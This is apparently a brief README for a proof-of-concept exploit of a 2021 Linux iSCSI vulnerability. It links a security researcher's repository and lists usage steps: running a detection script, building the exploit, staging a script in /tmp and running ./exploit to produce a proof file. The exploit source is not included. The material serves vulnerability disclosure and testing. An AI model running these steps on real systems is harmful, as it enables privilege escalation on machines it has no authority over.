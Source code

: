 <languages  />

POC
---

<https://github.com/VerSprite/NotQuite0DayFriday/tree/trunk/2021.03.12-linux-iscsi>

Usage
-----

    sudo python3 detect_iscsi_vuln.py

    sudo yum install -y make gcc

    make

    cp a.sh /tmp/

    chmod + x /tmp/a.sh

    ./exploit

    ls -l /tmp/proof